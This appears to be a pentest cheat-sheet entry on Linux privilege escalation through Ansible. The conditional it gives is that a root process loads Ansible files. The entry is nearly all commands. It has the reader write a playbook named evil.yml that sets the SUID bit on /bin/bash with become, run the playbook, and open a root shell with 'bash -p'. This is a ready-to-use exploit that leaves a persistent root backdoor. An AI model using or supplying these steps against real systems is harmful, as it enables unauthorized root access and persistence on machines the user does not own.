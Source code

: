 > If an ansible file is loaded by a root process : **Privilege Escalation**

# Exploit

```bash
# Create a .yml file just like the other one
nano evil.yml
# Content :
- hosts: localhost
  tasks:
    - name: RShell
      command: chmod u+s /bin/bash
      become: true

# ---
# save the file CTRL+O CTRL+X
# ---

ls -lah /bin/bash
ansible-playbook evil.yml
bash -p
# root
```
